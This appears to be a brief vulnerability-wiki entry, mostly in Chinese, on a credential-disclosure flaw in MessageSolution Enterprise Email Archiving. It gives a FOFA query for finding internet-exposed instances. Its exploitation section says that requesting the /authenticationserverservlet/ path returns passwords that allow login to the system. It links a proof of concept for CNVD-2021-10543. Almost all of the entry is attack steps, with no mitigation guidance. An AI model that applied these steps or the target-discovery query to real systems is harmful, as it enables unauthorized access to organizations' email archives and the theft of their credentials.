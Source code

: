 <languages  />

<div lang="chinese" dir="ltr" class="mw-content-ltr">
漏洞影響
--------

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
MessageSolution 企業郵件歸檔管理系統EEA

</div>
FOFA
----

    title="MessageSolution Enterprise Email Archiving (EEA)"

<div lang="chinese" dir="ltr" class="mw-content-ltr">
漏洞利用
--------

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
訪問如下Url

</div>
    http://xxx.xxx.xxx.xxx/authenticationserverservlet/

![](Xnip2021-03-22_15-06-00.jpg "Xnip2021-03-22_15-06-00.jpg")

<div lang="chinese" dir="ltr" class="mw-content-ltr">
使用獲得到的密碼可以登錄系統

</div>
![](Xnip2021-03-22_15-09-59.jpg "Xnip2021-03-22_15-09-59.jpg")

POC
---

<https://github.com/Henry4E36/CNVD-2021-10543>